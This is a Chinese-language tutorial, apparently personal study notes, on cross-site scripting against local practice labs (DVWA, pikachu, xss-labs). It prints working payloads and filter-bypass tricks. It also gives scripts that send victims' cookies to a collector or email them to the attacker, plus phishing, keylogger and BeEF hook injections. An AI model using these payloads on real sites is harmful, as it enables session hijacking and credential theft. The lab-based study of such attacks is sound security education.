





# xss渗透与防御

## 服务端的session

	

登录后每次刷新都还是属于登录状态，这是因为有了cookie

	

服务端会下发给客户端sessionid的cookie,之后客户端通过ssid进行身份识别,才能进入到服务端的会话中使用其他的cookie。而其他的账号密码等相关信息的cookie保存至服务端的session中。

	

## JS操作cookie

### cookie的妙用

首先电脑需要在谷歌和火狐游览器安装cookie bar从而获得一个网站的所有cookie

以火狐游览器登录豆瓣，用cookie bar插件获取所有的cookie.

使用插件export导出成json格式。

	

在谷歌游览器使用cookie editor导入从火狐导出的cookie,于是实现了登录。

	

	

那么如何远程获取其他用户的cookie？

首先查看自己的cookie,在f12的控制台使用alert弹窗来显示当前的cookie.

	

	

可以在控制台使用js增加cookie字段信息。

	

	

## 脚本注入网页

### 反射性xss简单案例

第一种是post请求的反射xss案例

正常点击提交，根据后端接受数据就是直接打印用户名。

	

	

如果在用户名里面输入恶意脚本，比如下图这个，则会被后端的php接受，并解析执行。

	

	

第二种get型的反射xss案例

在网页url中传入参数www.baidu.com,当点击链接即可跳转。

		

但是如果传入恶意脚本链接，当点击链接就会执行恶意脚本。

	

### 存储型xss简单案例

首先根据后端代码，建立wuya数据库和xss表。

	

正常前端页面点击注册

	

数据会写入到数据库中。

	

通过query.php在url上传入id获取用户名

	

如果把恶意脚本代码写入数据库。

	

提交后，那么就会触发执行脚本


数据库内部是这样的	

	

并且每次当服务器去后端查询数据库，也会触发恶意脚本，这就是所谓的存储型xss

	

## 获取cookie发送邮件实战

首先这是mail.js,也是注入的恶意脚本，当用户访问网页触发这个脚本，则会把自身的cookie传入到sendmail.php这个后端文件中。

	

在sendmail后端文件中会通过get请求得到其他人的cookie,并通过邮箱发给自己。

	

首先在qq邮箱中，点击设置，再点击账号，开启pop3等服务,从而获取授权码。

	

在sendmail后端文件要注意php版本要设置为7,password部分填自己qq邮箱的授权码,收发邮箱全部填自己邮箱。

	

xss的脚本注入代码

```
<script src=\'http://localhost/xss/mail.js\'></script>
```

利用存储型xss注入这个脚本到数据库中，当有人访问这个用户名的则会触发这个脚本。会把自己的cookie发送到黑客的邮箱中。

	

数据库注入了恶意脚本。

	

模拟用户登录，并访问了另外一个用户的网页，导致触发这个恶意脚本使得cookie被获取。

	

查询该用户的cookie

		

当访问id=16,数据库查询时会触发这个恶意脚本

	

于是qq邮箱收到了cookie，与原先另一个用户查询的cookie一致。

	

## DVWA靶场XSS

账号admin,密码password

首先安装DVWA的靶场环境，并设置安全等级为low

	

xss注入代码,注入一个弹出xss信息的脚本。

```
<script>alert('xss')</script>
```

反射型xss,点击submit。

	

	

将安全级别设置为medium

xss注入代码，medium难度会把关键字 <script> 给替换成空,于是可以考虑两种方法，大小写字母或者双写法。

```
第一种方法,大小写字母
<Script>alert('xss')</Script>
第二种方法，双写法
<sc<script>ript>alert('xss')</script> 
```

	

将安全级别设置为high

xss注入代码

```
 
```

	

若难度设置为impossible，则暂时无法用xss注入绕过。 因为使用htmlspecialchars函数，把相应字符转换为实体字符，则失去了原本标签的含义

	

对于存储型的xss也是一样的道理，低级别，点击sign guestbook

	

恶意脚本也被注入到数据库中。

	

medium和high级别也是用之前对应级别的反射型xss注入代码即可。

## xss平台搭建(上)

首先第一个使用的xss平台是pikachu

首先在cookie.php确保重定向后还是pikachu首页，并且该php文件会根据接收到get请求的cookie信息插入到数据库中。

	

xss注入代码,把当前用户的cookie以get请求传到cookie.php文件，再由cookie.php内部把接收的cookie插入数据库中

```
其中的document.location本身是js的网页跳转，所以跳转时会把当前用户cookie信息作为参数给到后端的cookie.php
<script>document.location='http://127.0.0.1/pikachu/pkxss/xcookie/cookie.php?cookie='+document.cookie;</script>
```

	

xss后台已经获取到cookie了

	

上述例子看起来较为复杂，从下面一个简单的小案例即可理解xss的原理

点击submit

	

	

查看网页源代码，其实就是把js代码注入到前端,让游览器去解析执行，从而获取一些信息。

	

第二个案例，post请求的xss注入,用户admin,密码123456点击登录。

	

而post.html内部包含一个js代码,这个代码会把cookie信息给到cookie.php后端文件，而该后端文件又会把cookie载入数据库，落入黑客手中。

	

所以当访问post.html这个网页，则cookie信息就被窃取了。

```
网页地址
http://127.0.0.1/pikachu/pkxss/xcookie/post.html
```

	

第三个案例，进行钓鱼获得账号密码

fish.php会去访问xfish.php并传递参数账号密码给后端，而xfish.php会把账号密码放入数据库从而实现钓鱼。

	

首先注入恶意代码到数据库中。

xss注入代码

```
让网页去加载执行fish.php文件，使得弹出登录框来钓鱼。
<script src="http://127.0.0.1/pikachu/pkxss/xfish/fish.php"></script>
```

	

数据库中就有这个恶意代码，每当打开存储型xss都会出现登录框，除非把这条记录删掉。

	

用户会误以为需要重新登录，使得输入后，账号密码将会被得知。

	

但是这个靶场本身有点小问题，使得没有获取到。

	

第四个案例,利用xss注入获得用户键盘的打字信息。

首先修改rk.js文件，让ajax传输打字信息的路径到对应的rkserver.php后端，而rkserver.php后端会把用户的打字信息，通过数据库保存下来

	

输入内容,哪怕没有提交，打字的内容也暴露了。

		

	

## xss平台搭建(下)

这次讲的xss平台，是kali虚拟机自带的xss平台，名为beef.

使用beef-xss先进行安装,于是再使用该命令打开xss平台。

	

开启beef,其中web ui是xss的管理平台,而hook是js脚本，是需要被攻击网站中注入的恶意脚本。第三个是payload

	

在配置文件当中，可以查看xss平台账号和密码

	

	

登录xss平台

	

用pikachu作为靶场进行xss注入

```
注入代码
<script src="http://192.168.15.141:3000/hook.js"></script>
```

	

于是在xss平台就有物理机pikachu的记录,于是使用xss平台发出弹窗。

	

pikachu收到了，说明可以用xss平台对pikachu靶场进行攻击。

	

也可以阻止pikachu的页面进行访问

	

	

可以使用detail来查看被攻击网站的所有详细信息。

	

## xss-labs闯关游戏

首先准备在apache部署xss-labs,具体参考文档部署。

### 第一关

xss注入代码

```
<script>alert('xss')</script>
```

	

### 第二关

随便输入一个payload,进行测试

```
<script>alert('xss')</script>
```

	

通过查看网页源代码发现，被value属性包住了，所以没有识别js脚本。

	

于是分析之后使用这个payload，即可通过第二关。

```
"><script>alert('xss')</script>
```

### 第三关

依然使用通用payload进行测试

```
<script>alert('xss')</script>
```

查看网页源代码,发现<>和双引号符号被网页转换为html的特定字符了，但是却发现单引号没有被转换，说明可以利用这一点。

	

分析后,使用的payload

```
由于”<>符号被转义,但是单引号没有转义,可以使用单引号闭合，在配合onmouseover属性,只要鼠标悬停在该标签即可触发js事件。
' onmouseover='alert(/xss/)'
```

注入后，鼠标悬停到文本框即可触发js脚本。

	

### 第四关

使用通用payload测试

```
<script>alert('xss')</script>
```

查看网页源代码,发现<>被删除掉了。

	

分析后,使用的payload

```
由于检测到<>符号会被删掉,则加一个onmouseover属性来触发js事件，来执行恶意脚本
" onmouseover='alert(/xss/)'
```

	

### 第五关

使用通用payload测试

```
<script>alert('xss')</script>	
```

查看源代码发现只要识别到script关键字就会中间加上下划线被处理掉。

并且使用第四关的payload也不行，遇到on关键字也会被处理掉加下划线。

	

使用这个payload，先进行符号闭合，然后使用a标签来使得点击触发js事件,伪协议的形式可以躲避关键字处理，javascript关键字没有当作一个整体被处理

```
"><a href="javascript:alert(/xss/)">click</a>
```

### 第六关

使用通用payload测试

```
<script>alert('xss')</script>	
```

查看源代码发现只要识别到script关键字就会中间加上下划线被处理掉。

	

通过分析先进行闭合,然后把scipt关键字改成大小写来写,结果发现没有过滤掉大小写，从而绕过。

```
"><SCript>alert('xss')</script>"
```

### 第七关

使用通用payload测试

```
<script>alert('xss')</script>	
```

查看源代码发现遇到script关键字就会去除掉。而且使用其他的payload会发现把on关键字也去除掉。使用a标签中的href属性也会去除掉。

	

那么采用双写法，去除掉一个on，另外一个ON不会被处理掉，从而绕过。

```
" OonNmouseover='alert(/xss/)'>
```

### 第八关

使用通用payload测试

```
<script>alert('xss')</script>	
```

查看源代码发现遇到script关键字会被加上下划线处理。并且大小写互写关键字也无效。使用伪协议也被处理掉，比如写javascript也会被处理加下划线。	

	

于是可以采用十六进制编码的payload进行绕过，把s进行html实体编码即可。

```
java&#115;cript:alert(/xss/)

实体编码格式如下
&#ascll码; 比如S和s的ascll码分别是83或115
则可以写成&#83;  &#115;
```

### 第九关

使用通用payload测试

```
<script>alert('xss')</script>	
```

查看源代码发现这次直接说链接不合法，也不提示怎么对输入的字符怎么处理。并且哪怕输入合法的链接，也会发现对关键字script和js进行处理加下划线，所以还是通过html实体编码绕过。

	

绕过的payload

```
java&#115;cript:alert('http://baidu.com')
```

### 第十关

这次网页没有输入框，则通过get请求的参数，尝试注入简单的payload

	

查看网页源代码,会发现有三个input隐藏标签

	

分别对三个输出参数，查看源代码后，只发现t_sort的input标签是没问题的。但是发现<>符号被处理掉了。

	

于是使用这个t_sort这个输入框,并且把类型换成text类型,

```
http://localhost/xsslabs/level10.php?t_sort=" type='text' onmouseover='javascript:alert(/xss/)'
```

### 第十一关

先用通用的

	

查看发现源代码，这次有四个隐藏的input标签

	

再从服务端查看网页源代码，其中大部分传入的参数都被htmlspecialchars函数过滤成html的实体符号了。

	

```
但是发现多了一个$str11=$_SERVER['HTTP_REFERER']字段，而我们知道，HTTP_REFERER是获取http请求中的Referer字段的，也就是我们是从哪一个页面来到现在这个页面的。我们可以使用Hackbar进行修改Referer字段。

payload:
" type="text" onclick="alert(1)
```

点击执行，点击文本框即可触发js事件。

	

### 第十二关

查看服务端网页源代码，发现http_user_agent代理发送的数据只处理了<>括号,其余没有处理，于是可以利用http_user_agent发生xss注入实现绕过。

	

```
xss注入代码
" type="text" onclick="alert(1)
```

	

### 第十三关

同理第十三关可以得知，从cookie注入xss代码来入手。

	

抓包,并通过cookie携带payload

```
payload:
user=" type="text" onclick="alert(1)
```

	

	

### 第十六关

分析十六关源码发现,会对keyword中get请求的数据进行过滤,会把script关键字和空格以及/字符进行转义&nbsp。这样就无法让js识别而得到执行。

	

```
经过分析,既然会把空格进行转义，那么就是用换行符%0a,因为前端换行不影响执行。
http://localhost/xsslabs/level16.php?keyword=<a%0ahref="javas%0acript:alert(1)">this
```

点击this即可触发脚本

	
